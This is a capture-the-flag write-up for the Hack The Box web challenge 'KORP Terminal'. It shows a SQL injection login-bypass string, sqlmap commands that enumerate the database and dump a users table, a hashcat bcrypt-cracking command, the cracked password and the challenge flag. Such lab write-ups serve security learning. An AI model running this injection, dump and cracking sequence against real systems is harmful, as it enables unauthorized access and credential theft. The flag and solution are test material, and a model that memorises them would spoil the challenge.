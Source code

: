 ```yaml
---
description: 'Category: Web Difficulty: Very Easy 300 points'
---
```


# KORP Terminal

## Description &#x20;

Your faction must infiltrate the KORP™ terminal and gain access to the Legionaries' privileged information and find out more about the organizers of the Fray. The terminal login screen is protected by state-of-the-art encryption and security protocols.

<figure><img src="../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>

### **Introduction**

This write-up documents a profound security analysis of a web application that exhibited a classic SQL Injection vulnerability.

<figure><img src="../.gitbook/assets/web (1).png" alt=""><figcaption></figcaption></figure>

### **Discovery of the Vulnerability**

The initial suspicion of a SQLi vulnerability arose when inputting crafted strings into the login form:&#x20;

```
Username = ad'||'min'-- and Password = 1
```

<figure><img src="../.gitbook/assets/user.png" alt=""><figcaption></figcaption></figure>

This input effectively bypassed the authentication process, indicating that the application improperly sanitizes user input, making it susceptible to SQL Injection.

<figure><img src="../.gitbook/assets/fin.png" alt=""><figcaption></figcaption></figure>

### **Exploitation and Analysis**

To further exploit this vulnerability, we utilized `sqlmap`, a powerful tool for automating the detection and exploitation of SQL Injection flaws. The command executed was as follows:

```bash
sqlmap -u URL --method=POST --data="username=admin&password=admin" --banner --dbms=mysql --level=5 --risk=3 --ignore-code=401
```

<figure><img src="../.gitbook/assets/test.png" alt=""><figcaption><p>SQLi vulnerability</p></figcaption></figure>

### **Database Enumeration**

With the vulnerability confirmed, the next step involved enumerating the databases accessible through the injection point:

```bash
sqlmap -u URL --method=POST --data="username=admin&password=admin" --banner --dbms=mysql --level=5 --risk=3 --ignore-code=401 --dbs --batch
```

<figure><img src="../.gitbook/assets/database.png" alt=""><figcaption><p>korp_terminal Database</p></figcaption></figure>

### **Table Enumeration**

To delve deeper into the `korp_terminal` database, we enumerated its tables:

```bash
sqlmap -u URL --method=POST --data="username=admin&password=admin" --banner --dbms=mysql --level=5 --risk=3 --ignore-code=401 -D korp_terminal --tables --batch
```

<figure><img src="../.gitbook/assets/table.png" alt=""><figcaption><p>users table</p></figcaption></figure>

### **Data Extraction**

Focusing on the `users` table, we extracted its contents:

```bash
sqlmap -u URL --method=POST --data="username=admin&password=admin" --banner --dbms=mysql --level=5 --risk=3 --ignore-code=401 -D korp_terminal -T users --dump --batch
```

<figure><img src="../.gitbook/assets/password.png" alt=""><figcaption></figcaption></figure>

### **Password Cracking**

With the hashed passwords extracted, the final step involved cracking these hashes to reveal plaintext passwords. For this, `hashcat` was employed:

```bash
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

* \-m 3200 (bcrypt $2\*$, Blowfish (Unix))
* /usr/share/wordlists/rockyou.txt (wordlist)

<figure><img src="../.gitbook/assets/hash.png" alt=""><figcaption><p>password123</p></figcaption></figure>

I proceeded to log in to the web application using the credentials obtained:&#x20;

```
Username = admin and Password = password123
```

This action granted me unauthorized access to the admin panel, where I was able to retrieve the coveted flag, marking the culmination of a successful exploitation process.

### Flag

<figure><img src="../.gitbook/assets/end.png" alt=""><figcaption><p>HTB{t3rm1n4l_cr4ck1ng_sh3n4nig4n5}</p></figcaption></figure>

## Follow Me <a href="#follow-me" id="follow-me"></a>

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
